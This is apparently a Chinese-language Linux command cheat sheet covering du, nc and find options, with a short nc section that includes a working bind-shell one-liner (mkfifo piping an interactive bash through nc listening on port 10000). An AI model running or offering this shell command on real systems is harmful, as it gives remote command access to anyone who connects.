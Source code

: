 ### -a：显示文件和目录的大小

 默认情况下，du 命令只显示目录的大小。如果加上 -a 参数（a 是英语 all 的首字母，表示“全部”），则会显示目录和文件的大小 

### -s：只显示总计大小

如果我们不想看到各个目录和文件的大小统计，而只想知道当前目录的总大小，可以使用 -s 参数（s 是英语 summarize 的首字母，表示“总结，概括”）

## nc

 nc -FNlp 80  < 2.txt

### 正向shell

```
mkfifo /tmp/fifo
cat /tmp/fifo | /bin/bash -i 2>&1 | nc -l 10000 > /tmp/fifo
```





## find



### 实例

```
find . -user www-data  #查找属于www-data的文件
```





### 语法

```
find   path   -option   [   -print ]   [ -exec   -ok   command ]   {} \;
```

**参数说明** :

find 根据下列规则判断 path 和 expression，在命令列上第一个 - ( ) , ! 之前的部份为 path，之后的是 expression。如果 path 是空字串则使用目前路径，如果 expression 是空字串则使用 -print 为预设 expression。

expression 中可使用的选项有二三十个之多，在此只介绍最常用的部份。

-mount, -xdev : 只检查和指定目录在同一个文件系统下的文件，避免列出其它文件系统中的文件

-amin n : 在过去 n 分钟内被读取过

-anewer file : 比文件 file 更晚被读取过的文件

-atime n : 在过去n天内被读取过的文件

-cmin n : 在过去 n 分钟内被修改过

-cnewer file :比文件 file 更新的文件
